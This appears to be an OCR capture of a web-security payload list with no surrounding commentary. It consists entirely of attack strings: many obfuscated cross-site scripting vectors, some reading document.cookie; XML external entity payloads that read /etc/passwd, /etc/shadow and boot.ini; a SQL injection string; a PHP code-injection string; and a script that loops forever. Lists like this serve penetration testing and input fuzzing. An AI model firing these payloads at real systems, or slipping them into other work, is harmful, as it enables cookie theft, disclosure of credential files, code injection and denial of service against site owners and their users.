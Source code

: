 <![CDATA[<]]>SCRIPT<![CDATA[>]]>alert('XSS');<![CDATA[<]]>/SCRIPT<![CDATA[>]]>
<![CDATA[<script>var n=0;while(true){n++;}</script>]]>
</foo>
<<
<<<
<<script>alert("XSS");//<</script>
<>"'%;)(&+
<?
<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM "file:////dev/random">]><foo>&xxe;</foo>
<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM "file:////etc/passwd">]><foo>&xxe;</foo>
<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM "file:////etc/shadow">]><foo>&xxe;</foo>
<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM "file://c:/boot.ini">]><foo>&xxe;</foo>
<?xml version="1.0" encoding="ISO-8859-1"?><foo><![CDATA[' or 1=1 or ''=']]></foo>
<?xml version="1.0" encoding="ISO-8859-1"?><foo><![CDATA[<]]>SCRIPT<![CDATA[>]]>alert('XSS');<![CDATA[<]]>/SCRIPT<![CDATA[>]]></foo>
<HTML xmlns:xss><?import namespace="xss" implementation="http://ha.ckers.org/xss.htc"><xss:xss>XSS</xss:xss></HTML>
<IMG """><SCRIPT>alert("XSS")</SCRIPT>">
<IMG DYNSRC="javascript:alert('XSS')">
<IMG LOWSRC="javascript:alert('XSS')">
<IMG SRC=" &#14;  javascript:alert('XSS');">
<IMG SRC="jav	ascript:alert('XSS');">
<IMG SRC="jav&#x09;ascript:alert('XSS');">
<IMG SRC="jav&#x0A;ascript:alert('XSS');">
<IMG SRC="jav&#x0D;ascript:alert('XSS');">
<IMG SRC="javascript:alert('XSS')"
<IMG SRC="javascript:alert('XSS');">
<IMG SRC=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041>
<IMG SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41;>
<IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>
<IMG SRC=JaVaScRiPt:alert('XSS')>
<IMG SRC=`javascript:alert("'XSS'")`>
<IMG SRC=javascript:alert(&quot;XSS&quot;)>
<IMG SRC=javascript:alert('XSS')>
<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>
<IMG%20SRC='%26%23x6a;avasc%26%23000010ript:a%26%23x6c;ert(document.%26%23x63;ookie)'>
<IMG%20SRC='javasc	ript:alert(document.cookie)'>
<IMG%20SRC='javascript:alert(document.cookie)'>
<foo></foo>
<name>','')); phpinfo(); exit;/*</name>
<script>alert("XSS")</script>
<script>alert(document.cookie)</script>
<xml ID="xss"><I><B>&lt;IMG SRC="javascript:alert('XSS')"&gt;</B></I></xml><SPAN DATASRC="#xss" DATAFLD="B" DATAFORMATAS="HTML"></SPAN></C></X></xml><SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML></SPAN>
<xml ID=I><X><C><![CDATA[<IMG SRC="javas]]><![CDATA[cript:alert('XSS');">]]>